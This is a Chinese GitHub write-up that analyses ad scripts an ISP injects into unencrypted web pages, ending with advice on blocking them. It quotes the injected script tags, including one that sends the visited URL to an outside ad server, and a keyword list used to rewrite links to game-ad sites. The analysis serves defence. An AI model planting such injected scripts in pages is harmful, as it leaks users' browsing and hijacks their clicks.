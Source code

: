 #### 对网络运行商广告植入脚本的分析:

使用工具: chrome

当使用VPN代理以及一些使用https的网站没有被劫持注入脚本外,我这边使用的联通宽带基本都会对网站
注入脚本进行广告.

当开启VPN代理时,访问`http://expressjs.com/guide/routing.html`,会发现DOM非常干净
(如下图):
![GitHub Logo](img/1.jpg)

当没有开启VPN代理时,会发现被插入了一个脚本:
`<script charset="utf-8" async="true" src="http://s.voitsport.com/rb/c.js"></script>`
(如下图):
![GitHub Logo](img/2.jpg)

说明这些宽带运营商在我们请求的内容中做了操作(植入脚本)
通过脚本分析,发现这个加载执行后(使用异步加载哦),又创建了一个脚本标签插入到了head里面.

```
<script 
    src="http://img.victorjx.com/fmt/ 
        ?u=http%3A//expressjs.com/guide/routing.html&amp;a=0.7700656410306692&amp;w=513&amp;h=5832" 
    async="" 
    type="text/javascript">
</script>
```
上一个脚本(`c.js`)通过`window.document.location`获得了用户当前正在访问的网址,然后创造这个了这个脚本
当这个脚本标签一旦被注入到DOM中,就发送一个GET请求,随便就把之前获取到的`window.document.location`发送给了
服务器,此时用户隐私便泄露了.同时这个请求又获得了js代码,开始执行.从得到的js代码中可以知道,这个js代码又创建了
4个脚本标签分别为:`common_top_banner.js`, `cres_glink.js`, `kwd.js`, `p_a_clk.js`
同时还创造了一大推注入`iframe`的标签(具体没有细看).

![GitHub Logo](img/3.jpg)


从上图中可以看到:
- 有弹窗广告(这个是非flash的jd广告),还有最顶部的flash广告.(这一iframe居多)
- 还有就是劫持页面的超链接.
    特点就是:每一次打开一个网站,第一次点击就会被跳转到游戏广告页面
    之后的点击都正常.每一次从浏览器中的状态栏明明看到链接指向正确(其实脚本使用事件绑定)

仔细阅读了这些脚本,发现里面会对标签主要是`<a href="#"></a>`做遍历.

其中`cres_glink.js`中,有一个数组关键字,
```
var vol = [
        ["雷霆之怒", "雷霆之怒", "http://gjrowx.code.mytanwan.com/htmlcode/1598.html"],
        ["琅琊榜", "雷霆之怒", "http://cdn.859377.com/welcome.html?id=7849"],
        ["一刀9999级", "雷霆之怒", "http://cdn.859377.com/welcome.html?id=7849"],
        ["战天", "战天", "http://zhilian.1x3x.com/40923-59518.html?p=hj"],
        ["花千骨", "花千骨", "http://youxi.baidu.com/yxpm/pm.jsp?pid=101110203901074_3164491"]
      ]
```
脚本会解析(遍历)页面中的所有A标签里的文本,href,innerHTML,如果有一个标签是上面指定的关键字:
`<button><a href="https://developer.mozilla.org">花千骨</a></button>`
那么这个脚本就会改变这个标签为:
`<button><a href="http://youxi.baidu.com/yxpm/pm.jsp?pid=101110203901074_3164491">花千骨</a></button>`
这里没有添加事件,直接修改了网站的标签元素.

`kwd.js`这个脚本会使用事件绑定来执行跳转.如果匹配指定的关键字,它不会修改DOM,但是会劫持用户的点击,在点击中执行跳转.
并且设置`cookie`到这个域名下,当点击一次后,根据cookie的过期时间,可保证在这一天中这个域名下的点击只会被劫持仅仅一次.
其实要逐个遍历dom元素,会有性能的问题.

#### 为了便于重现这些广告行为,已将其所有主要的脚本下载下来.以便在本地演示.
#### 注意演示时,最好清除cookie,然后禁止演示地址的cookie
#### 从这些脚本中学习了

怎么阻止运营商的植入广告呢? 
1.使用VPN
2.网站使用https
3.安装chrome的block广告插件(推介ScriptSafe以及ADblock)
4.最后当广告插件无效时,直接在host文件中阻止相应脚本的加载域名.



